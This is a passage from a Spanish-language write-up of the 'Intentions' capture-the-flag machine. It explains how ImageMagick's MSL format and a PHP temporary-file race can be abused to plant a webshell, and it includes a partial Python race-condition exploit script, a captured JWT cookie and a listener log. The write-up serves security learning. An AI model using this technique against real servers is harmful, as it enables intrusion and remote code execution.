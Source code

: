 ```bash
> Cookie: token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOi8vaW50ZW50aW9ucy5odGIvYXBpL3YyL2F1dGgvbG9naW4iLCJpYXQiOjE2OTcwNDY4NzIsImV4cCI6MTY5NzA2ODQ3MiwibmJmIjoxNjk3MDQ2ODcyLCJqdGkiOiJwa0dTQlpDRzRiVENoa3NMIiwic3ViIjoiMiIsInBydiI6IjIzYmQ1Yzg5NDlmNjAwYWRiMzllNzAxYzQwMDg3MmRiN2E1OTc2ZjcifQ.jWp6176OU9xc44OFXiyjHX58bBhiyk2WryA9dLvwmzo
> Content-Type: application/json
> Content-Length: 56
> 
... [snip]
```

```bash
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.220 - - [11/Oct/2023 14:21:12] code 404, message File not found
10.10.11.220 - - [11/Oct/2023 14:21:12] "GET /asd HTTP/1.1" 404 -
```

Esto puede ser peligroso ya que ImageMagick no solo soporta formatos de imágenes, si no otros como PDF, PostScript y MSL.

El formato MSL (Magick Scripting Language) puede ser explotado para crear una webshell dentro del servidor si procesa PHP, como se ve en [este ejemplo](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) y lo mejor es que ImageMagick soporta este formato por defecto sin ningún tipo de extensión, pero vamos a tener que jugar algo a carreras para lograr obtener una ejecución de comandos.

Si leiste el artículo, habrás visto que el formato `msl:` no soporta el subformato HTTP, por lo que vamos a tener que aprovecharnos del nginx lanzando miles de peticiones con un archivo msl que se guardará en la forma de `/tmp/phpXXXXXX` donde $$ X \in [a-zA-Z0-9] $$, por suerte esto será simplemente como un tipo de condición de carrera ya que gracias al esquema `vid` podemos colocar simplemente `vid:msl:/tmp/php*` para hacer referencia al primer fichero que empieze por PHP que exista.

Tienes posibilidad de hacerlo manual con bash, pero en mi caso usaré un script de Python:

```python
import requests
import signal
from concurrent.futures import ThreadPoolExecutor;
from pwn import *

sess = requests.session()
token = "" # Put your API token here
logg = log.progress("Thingy")

def sigint(stack, buf):
    log.failure("Exiting...")
    exit(1)

def bruteforce():
        f = open("test.msl", "r") 
        file = {"test": ("test", f.read())}
        sess.post("http://intentions.htb/api/v2/admin/image/modify", files=file)
 
def test():
    cookie = {"token":token}
    res = sess.post("http://intentions.htb/api/v2/admin/image/modify", headers={"Content-Type":"application/json"}, json={"path":"vid:msl:/tmp/php*", "effect":"asd"}, cookies=cookie)
    if res.status_code != 422:
         return 0;

def check(result):
    if result.result() == 0:
        logg.success("Shell maybe uploaded, go to look in http://intentions.htb/test.php")
        os.kill(os.getpid(), 9) # Yeah, i'm insane

signal.signal(signal.SIGINT, sigint)

```